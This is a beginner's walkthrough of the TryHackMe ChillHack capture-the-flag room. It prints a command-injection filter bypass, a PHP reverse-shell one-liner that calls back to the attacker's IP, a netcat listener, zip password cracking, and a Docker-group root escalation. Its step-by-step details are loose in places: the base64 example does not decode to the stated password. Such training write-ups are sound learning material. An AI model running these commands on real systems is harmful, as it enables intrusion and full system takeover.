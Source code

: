 
# ChillHack CTF Walkthrough ☃️  
*My learning journey through ChillHack on TryHackMe*  

Hey folks! 👋  
I'm just getting started in the world of cybersecurity and decided to tackle the **ChillHack** room on TryHackMe. This write-up captures my step-by-step adventure — full of confusion, small wins, and a ton of learning along the way!

---

## 🧊 Step 1: FTP Access - Anonymous Allowed?  
So the first hint I found was that anonymous login on FTP was allowed. Boom — I was in! 🔓

There was a note from **Apaar** that said:  
> *"odh told me that there is some filtering on strings being put in the command."*

Hmm... interesting. Sounds like we’ll be playing with **command injection** later on!

---

## 🖥️ Step 2: Command Execution via Web  

I found a juicy-looking URL:  
```
http://chillhack.thm/secret/
```

It turns out there's a form that lets us run commands on the server. But... of course, there's some filtering. No straight-up `cat index.html` for us 😤

### Bypass Time!  
To get around the filter, I tried a trick:  
```
c/at index.html
```
It worked! Filters can’t stop me forever 😎

---

## 🐚 Step 3: Reverse Shell With PHP  

Time to pop a shell! Let's set up a Netcat listener first:  
```
nc -lvnp 7777
```

Then fire off a PHP reverse shell:
```bash
/usr/bin/php -r '$sock=fsockopen("10.8.27.206",7777);exec("sh <&3 >&3 2>&3");'
```

I originally tried without the full path to PHP but got no response. Lesson learned: **use `/usr/bin/php`** — always double-check where binaries live using `which php`.

---

## 🔑 Step 4: Finding Keys & Getting SSH Access  

I stumbled on an **authorized_keys** file for the user Apaar! Huge win.  

Here's what I found (snippet):  
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQ...
```

Once we’re in, stabilize that shell so it’s less wonky. Always helps.

---

## 🖼️ Step 5: Steganography & Cracking Passwords  

Downloaded some image files using `wget` and tried out **steghide** to extract hidden goodies.

### Cracked a zip file with John the Ripper:
```bash
zip2john hidden_data.txt > input_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt input_john.txt
```

And the password?  
```
pass1word
```

Very creative 😅

---

## 🧠 Step 6: Base64 Decode Magic  

Found something that looked encoded:  
```bash
echo "aGFzaA==" | base64 -d
```

Turns out the password was:  
```
!d0ntKn0wmYp@ssw0rd
```

---

## 🔍 Step 7: Finding More Users  

Dug through `/etc/passwd` and found additional users. Time to use SSH to login with the creds we’ve gathered.

---

## 🧪 Step 8: Sudo Exploitation - Meet helpline.sh  

Ran `sudo -l` and noticed something interesting. As **Apaar**, I could run a script: `helpline.sh`.

Checked the script...  
And boom 💥 — it passed input directly to bash! Classic **command injection** vulnerability.

```bash
/bin/bash
```

Now I had a proper shell as Apaar and grabbed `user.txt` 🏁

---

## 🐳 Step 9: Docker Privilege Escalation  

Checked the `id` command — turns out the user was in the `docker` group.

I remembered a neat trick from GTFOBins:  
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

That gave me a **root shell**. Just like that. Game over 🎮

---

## 🏁 Final Thoughts  

This box was **super fun** and full of classic techniques:  
- FTP enumeration  
- Command injection  
- Reverse shells  
- Steganography  
- Zip cracking  
- Sudo misconfigurations  
- Docker privilege escalation  

I learned **a lot** doing this — and still have miles to go! 🚀  
If you're also just starting out, I hope this helps you or at least makes you feel a little less lost 😅

---

## 📸 Screenshot Proofs  

I've added a few screenshots (see [screenshots folder](./screenshots/)) to document my progress if you want to follow along.

---

Thanks for reading — and feel free to reach out if you're on a similar journey! 💻🔐
